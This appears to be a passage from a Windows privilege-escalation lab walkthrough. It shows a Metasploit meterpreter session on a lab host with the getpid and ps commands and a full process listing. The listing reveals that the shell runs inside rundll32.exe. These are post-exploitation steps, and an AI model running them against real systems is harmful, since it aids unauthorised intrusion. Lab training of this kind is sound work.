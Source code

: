 Windows Server

```shell-session
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

Process List
============
 PID   PPID  Name               Arch  Session  User                    Path
 ---   ----  ----               ----  -------  ----                    ----
 0     0     [System Process]
 4     0     System
 164   1800  VMwareUser.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
 244   2032  winlogon.exe
 260   4     smss.exe
 288   476   svchost.exe
 332   324   csrss.exe
 376   324   wininit.exe
 476   376   services.exe
 492   376   lsass.exe
 500   376   lsm.exe
 584   476   mscorsvw.exe
 600   476   svchost.exe
 616   476   msdtc.exe
 676   476   svchost.exe
 744   476   taskhost.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\taskhost.exe
 756   1800  VMwareTray.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
 764   476   svchost.exe
 800   476   svchost.exe
 844   476   svchost.exe
 900   476   svchost.exe
 940   476   svchost.exe
 976   476   spoolsv.exe
 1012  476   sppsvc.exe
 1048  476   svchost.exe
 1112  476   VMwareService.exe
 1260  2460  powershell.exe     x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1408  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 1464  900   dwm.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\dwm.exe
 1632  476   svchost.exe
 1672  600   WmiPrvSE.exe
 2140  2460  cmd.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\cmd.exe
 2256  600   WmiPrvSE.exe
 2264  476   mscorsvw.exe
 2268  2628  rundll32.exe       x86   2        WINLPE-2K8\htb-student  C:\Windows\SysWOW64\rundll32.exe
 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
```